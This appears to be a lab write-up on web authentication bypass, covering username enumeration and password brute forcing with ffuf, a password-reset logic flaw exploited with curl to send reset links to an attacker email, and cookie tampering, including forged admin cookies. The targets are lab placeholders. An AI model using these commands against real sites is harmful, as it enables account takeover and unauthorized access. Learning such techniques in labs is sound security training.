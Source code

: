 # 🔐 Authentication Bypass

---

## Task 1: Introduction

In this document, we will explore different methods through which website authentication processes can be bypassed, manipulated, or broken. These vulnerabilities are critical as they often lead to unauthorized access and leakage of sensitive personal data.

---

## Task 2: Username Enumeration

Enumerating usernames is crucial when assessing authentication vulnerabilities. Web applications commonly reveal valuable information through error messages, which can be used to identify valid usernames.

### Method:

Visit the signup page (e.g., `http://MACHINE_IP/customers/signup`) and attempt to register with a username like `admin`. If the username exists, an error such as "An account with this username already exists" appears.

**Automating Username Enumeration with ffuf:**

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```

Save the discovered usernames to a file:

```bash
echo "discovered_username" > valid_usernames.txt
```

---

## Task 3: Brute Force Attack

Using the list of usernames collected earlier, we can perform brute force attacks to discover valid credentials.

**Brute Forcing with ffuf:**

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```

The above command tests multiple username-password combinations, helping to identify correct credentials.

---

## Task 4: Logic Flaw in Authentication

Logic flaws occur when the intended authentication workflow can be circumvented due to improper checks or logic errors in application code.

![Logic Flaw Diagram](https://github.com/user-attachments/assets/b873db69-3d30-4810-b9b7-e5c293b3cc41)

### Practical Demonstration:

1. **Navigate to Password Reset:**

`http://MACHINE_IP/customers/reset`

2. **Enter Valid Email:**
   Enter a known email:

![Valid Email](https://github.com/user-attachments/assets/6b1f6b25-4cb0-4636-847d-d6eb9830dc17)

3. **Exploit Logic Flaw:**

Send a manipulated request to redirect the reset email:

```bash
curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-d 'username=robert&email=attacker@hacker.com'
```

This request redirects the password reset email to an attacker-controlled email:

![Logic Flaw Exploit](https://github.com/user-attachments/assets/85587ccb-09b1-4f53-8a25-cc2bec3d031d)

4. **Final Step - Gain Unauthorized Access:**

Create an account to obtain your unique email (`{username}@customer.acmeitsupport.thm`). Resend the manipulated request:

```bash
curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-d 'username=robert&email={your_username}@customer.acmeitsupport.thm'
```

This grants access via a reset link sent to your account.

---

## Task 5: Cookie Tampering

Modifying cookies set by the server can grant unauthorized access or escalate privileges.

### Plain Text Cookie Example:

Initially check the access status:

```bash
curl http://MACHINE_IP/cookie-test
# Output: Not Logged In
```

Modify the cookie to gain user access:

```bash
curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
# Output: Logged In As A User
```

Further escalate privileges by altering the admin value:

```bash
curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
# Output: Logged In As An Admin
```

### Hashing and Encoding Cookies:

Cookies sometimes use hashing or encoding:

* **Hash Example:** `md5(1)` outputs `c4ca4238a0b923820dcc509a6f75849b`
* **Encoding Example:** Base64 encoded string `eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==` decodes to `{"id":1,"admin":false}`

Modify admin status and re-encode to bypass restrictions:

```json
{"id":1,"admin":true}
```

Re-encoded to Base64:

```
eyJpZCI6MSwiYWRtaW4iOnRydWV9
```

---

### ✅ Recommended Mitigations:

* Perform strict validation on user inputs.
* Do not rely solely on client-side parameters.
* Ensure proper handling and verification of cookies and session data.
* Always use server-side validation for security-critical operations.

